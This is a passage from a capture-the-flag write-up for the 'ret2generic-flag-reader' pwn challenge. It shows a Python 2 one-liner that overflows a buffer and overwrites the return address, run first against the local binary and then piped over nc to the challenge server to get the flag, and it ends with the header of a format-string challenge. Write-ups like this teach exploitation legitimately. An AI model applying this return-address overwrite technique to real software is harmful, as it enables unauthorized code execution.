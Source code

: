 ```py
python2 -c "print('A'*40 + '\xf6\x11\x40\x00\x00\x00')"
```

Due to endianness, we have to write the bytes upside down. Again I chose to go with python2 because of easier output as bytes. Pipe the output to our local binary,

```
❯ python2 -c "print('A'*40 + '\xf6\x11\x40\x00\x00\x00')" | ./ret2generic-flag-reader
alright, the rob inc company meeting is tomorrow and i have to come up with a new pwnable...
how about this, we'll make a generic pwnable with an overflow and they've got to ret to some flag reading function!
slap on some flavortext and there's no way rob will fire me now!
this is genius!! what do you think?
ZZZZZZZZZZZZZZZZZZ

[1]    19503 done                python2 -c "print('A'*40 + '\xf6\x11\x40\x00\x00\x00')" |
       19504 segmentation fault  ./ret2generic-flag-reader
```

...and boom we have our Z's. Now we pipe the output to the server,

```
❯ python2 -c "print('A'*40 + '\xf6\x11\x40\x00\x00\x00')" | nc mc.ax 31077
alright, the rob inc company meeting is tomorrow and i have to come up with a new pwnable...
how about this, we'll make a generic pwnable with an overflow and they've got to ret to some flag reading function!
slap on some flavortext and there's no way rob will fire me now!
this is genius!! what do you think?
flag{rob-loved-the-challenge-but-im-still-paid-minimum-wage}
```

and we have our flag.

##### Flag: flag{rob-loved-the-challenge-but-im-still-paid-minimum-wage}

### pwn/printf-please

---

#### Categeory: Binary Exploit

#### Difficulty: Medium

#### Keywords: Binary Exploit, Format String Exploit, printf

#### Author: TheRealDarkCoder

#### Prompt:>

```
Be sure to say please...

nc mc.ax 31569

```
